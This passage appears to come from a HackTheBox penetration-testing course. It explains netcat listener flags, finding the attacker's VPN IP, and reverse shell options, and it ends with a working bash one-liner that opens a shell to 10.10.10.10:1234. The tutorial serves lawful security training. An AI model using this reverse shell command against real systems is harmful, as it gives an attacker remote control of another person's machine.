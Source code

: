 | Flag | Description |
| --- | --- |
| `-l` | Listen mode, to wait for a connection to connect to us. |
| `-v` | Verbose mode, so that we know when we receive a connection. |
| `-n` | Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

Now that we have a `netcat` listener waiting for a connection, we can execute the reverse shell command that connects to us.

#### Connect Back IP

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with the following command:

Types of Shells

```shell
6165@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

In our example, the IP we are interested in is under `tun0`, which is the same HTB network we connected to through our VPN.

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using \`eth0\`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the \`eth0\` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
